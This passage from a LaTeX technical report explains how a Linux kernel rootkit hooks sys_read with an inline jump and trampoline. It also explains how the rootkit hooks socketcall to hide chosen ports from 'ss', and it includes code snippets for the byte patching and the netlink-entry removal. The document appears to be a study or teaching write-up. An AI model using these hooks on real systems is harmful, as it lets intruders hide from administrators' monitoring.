It remains to explain how we can alter the machine instructions of \texttt{sys\_read} at runtime. This is done using the following code snippets\footnote{Note that this is not a verbatim excerpt of the code, but just the essential parts for hooking shown together.}:

First of all, we recognize that for the Jump-instruction we want to insert, we need five bytes (one byte for the JMP, and four bytes for the address). So we do

\begin{verbatim}
#define SYSCALL_CODE_LENGTH 5
\end{verbatim}

Furthermore, we have to do two things: We have to remember the original bytes that reside in memory, so that we can restore them when unloading the module. Moreover, we create an auxiliary array that holds the 5 bytes needed for our Jump-instruction to be inserted:

\begin{verbatim}
static char syscall_code[SYSCALL_CODE_LENGTH];
static char new_syscall_code[SYSCALL_CODE_LENGTH] = "\xe9\x00\x00\x00\x00"; /* jmp $0 */
\end{verbatim}


%$ 
%bitte drinlassen, sonst haut die autocompletion von auctex net gscheit hin.
\texttt{syscall\_code} will later hold the \emph{original} bytes from the system call, while \texttt{new\_syscall\_code} holds the bytes representing the jump-instruction to be inserted. 

Note that -- up to now -- we would just jump to 0. This is of course not what we want. We want to jump to \texttt{hooked\_read}. To tell the program so, we do the following:

\begin{verbatim}
*(int *)&new_syscall_code[1] = 
 ((int)hooked_read) - ((int)sys_call_table[__NR_read] + 5);
\end{verbatim}

This sets the last 4 bytes to the corresponding address. Note that we have to compute the difference between \texttt{hooked\_read} and \texttt{sys\_call\_table[\_\_NR\_read]}, since the jump is relative. We have to add 5, because the jump-instruction itself occupies 5 bytes.

So, it remains to backup the original bytes and install the jump-instruction. Therefore, we wrote a small auxiliary function \texttt{\_memcpy} that behaves (or at least should behave) just like the well-known \texttt{memcpy}. It takes one more parameter to handle write-protected memory sections properly.

\begin{verbatim}
_memcpy( syscall_code, sys_call_table[__NR_read], sizeof(syscall_code), 0);
_memcpy( sys_call_table[__NR_read], new_syscall_code, sizeof(syscall_code), 1);
\end{verbatim}

\subsubsection{How the new \texttt{hooked\_read} works}
\label{sec:hooked-read-2-technique}

Now that we've installed the hook properly, we can think about how the new hooked function works. In principle, it works like the old \texttt{hooked\_read}: It calls the original \texttt{sys\_read}, checks its return values\footnote{It doesn't actually check return value only, but the (potentially modified) arguments.}, does some processing, and returns the value received from the original \texttt{sys\_read}.

The only problem arising here is that the original \texttt{sys\_read} isn't original anymore! We modified it such that it automatically jumps to \texttt{hooked\_read}. Therefore, we have to do some work when initializing the hook: As said before, we manipulate the first 5 bytes of \texttt{sys\_read} and create a backup of them. We moreover will use these five bytes to ``simulate'' the original run of the \texttt{sys\_read} function.

Let us for now concentrate on how the \texttt{sys\_read} normally takes place on assembly level. Therefore, we consider again some disassembly for the \texttt{read} system call:

\begin{verbatim}
0xc10ae026:	push   %esi                 ;; gets overwritten
0xc10ae027:	mov    $0xfffffff7,%esi     ;; gets overwritten
0xc10ae02c:	push   %ebx
0xc10ae02d:	sub    $0xc,%esp
\end{verbatim}

When we overwrite the first 5 bytes with the jump-instruction to \texttt{hooked\_read}, this affects the first two instructions of the original \texttt{read} system call (\texttt{push \%esi} and \texttt{mov \$0xfffffff7,\%esi}). These two instructions require 7 bytes of memory. Thus, if we want to backup the first 2 instructions (not only the first 5 bytes), we can do something like follows:

\begin{verbatim}
    _memcpy( trampoline, sys_call_table[SYSCALL_NR], 7, 0);
\end{verbatim}

This copies the first 2 instructions into an auxiliary byte array \texttt{trampoline}. That is, we have now the following situation:

\begin{itemize}
\item When the read system call gets called, we are redirected to \texttt{hooked\_read}.
\item \texttt{trampoline} stores the first 2 \emph{original} instructions of the \emph{original} system call.
\end{itemize}

As said above, \texttt{hooked\_read} somehow needs to call the original system call so that we get the result (and -- of course -- the user doesn't experience any difference when typing in something). However, the system call is currently damaged since we overwrote the first 2 instructions in memory.

But we can do the following: Since we have the first 2 \emph{original} instructions stored in \texttt{trampoline}, we can just ``go there'', do these two instructions, and afterwards jump to the third instruction of the original system call and continue there. This technique is illustrated in \autoref{fig:trampoline-hooked-read}.

\begin{figure}[t]
  \centering
  
\begin{tikzpicture}
    %% system call table
    \draw (0,0) rectangle (2,3);
    \node at (1,3) [above] {System call table};
    \draw (0,1) rectangle (2,1.5);
    \node (p) at (1,1) [above] {\texttt{0x15bf102a}};
    %% modified sys_read
    \tikzstyle {memorycell} = [shape=rectangle, draw=black, minimum width=4cm, text width=4cm, minimum height=0.65cm];
    \node at (5,3.3) [above] {Modified \texttt{sys\_read}};
    \node (sr1) [memorycell] at (5,3) {\texttt{jmp   \$0xbadc0ded}};
    \node (sr2) [memorycell] at (5,2.35) {\texttt{[unimportant]}};
    \node (sr3) [memorycell] at (5,1.7) {\texttt{push \%ebx}};
    \node (sr4) [memorycell] at (5,1.05) {\texttt{sub \$0xc,\%esp}};
    \draw [->] (2,1.25) .. controls +(0.5,0) and +(-0.5,0) .. (sr1.west);
    %% hooked_read
    \tikzstyle {memorycell} = [shape=rectangle, draw=black, minimum width=4cm, minimum height=0.65cm];
    \node (hr) [memorycell] at (10,3.5) {\texttt{hooked\_read}};
    \draw [->] (sr1.east) .. controls +(.5,0) and +(-.5,0) .. (hr.west);
    %% trampoline
    \tikzstyle {memorycell} = [shape=rectangle, draw=black, minimum width=4cm, text width=4cm, minimum height=0.65cm];
    \node at (10,1.8) [above] {\texttt{trampoline}};
    \node (t1) [memorycell] at (10,1.5) {\texttt{push \%esi}};
    \node (t2) [memorycell] at (10,0.85) {\texttt{mov \$0xfffffff7,\%esi}};
    \node (t3) [memorycell] at (10,0.2) {\texttt{push \%esi}};
    \draw [->] (t3.west) .. controls +(-.5,0) and +(.5,0) .. (sr3.east);
    \draw [->, rounded corners] (hr.east) -- +(.5,0) |- (t1.east);
  \end{tikzpicture}
  \caption{Mechanism of \texttt{hooked\_socketcall} in connection with \texttt{trampoline}. The modified \texttt{sys\_read} ensures that we jump to the rootkit's \texttt{hooked\_read} function, which -- for its part -- ``issues a call'' to trampoline that contains the first 2 instructions of the original \texttt{sys\_read} functions and a jump the third instruction in \texttt{sys\_read}.}
  \label{fig:trampoline-hooked-read}
\end{figure}



\subsection{Hiding sockets from \texttt{ss} another way}
\label{sec:socket-hiding-evasion}

As mentioned before, we can hide sockets from \texttt{ss} using another technique. We still hook the \texttt{socketcall} function, but we implement another behaviour. In order to understand how this works, let us shortly examine how \texttt{ss} actually produces its output. We can track down the code of \texttt{ss} to the following essentials (irrelevant things ommited):

\begin{verbatim}
status = recvmsg(fd, &msg, 0); // receive information
[...]                          // buf is somewhere "inside" msg
h = (struct nlmsghdr*)buf;     // buf holds the information for ss
while (NLMSG_OK(h, status)) {  // "parse" information and output
  tcp_show_sock(h, NULL);      // generate one output line
  h = NLMSG_NEXT(h, status);   // fetch next item
}
\end{verbatim}

We see that obviously \texttt{recvmsg} is called, and the resulting information is used to generate the output. \texttt{buf} is a buffer that contains several \texttt{nlmsghdr}s in sequence. These are processed one after another to generate the output.

So, if we are able to modify this sequence of \texttt{nlmsghdr}s that is generated by \texttt{recvmsg}, we are basically done. As we know, the \texttt{recvmsg} system call is internally handled by the \texttt{socketcall} function. We hook this function (by modifying the syscall table) and inject in this way our \texttt{hooked\_socketcall}. 

\texttt{hooked\_socketcall} works as follows: First, we issue a call to the original \texttt{socketcall} function so that we get the \emph{original} result. After that, we are going to modify this result appropriately. Since \texttt{recvmsg} returns the number of bytes stored in the sequence, we also have to remember and adjust this number. It is stored in \texttt{retval}.

We are going to modify the result using a similar technique to that described in \autoref{filehiding}: If we find an entry to be hidden, we take all remaining entries and move them one position forward (see \autoref{fig:filehiding} for a visualization, but remember that we are here talking about \texttt{nlmsghdr}s). Therefore, we iterate over all the entries and check for each entry if it shall be hidden.

\begin{verbatim}
currhdr = (char*)h; // current entry
if (checkport(h)){  // shall we hide this entry?
    // overwrite the current entry by shifting
    for (i=0; i<status; ++i){
        currhdr[i] = currhdr[i + NLMSG_ALIGN((h)->nlmsg_len)];
    }
    // adjust return value (no. bytes)
    retval = retval - NLMSG_ALIGN((h)->nlmsg_len);
}
\end{verbatim}

\subsection{Removing module from sysfs-datastructures}
\label{sec:module-hiding-evasion}

\end{document}
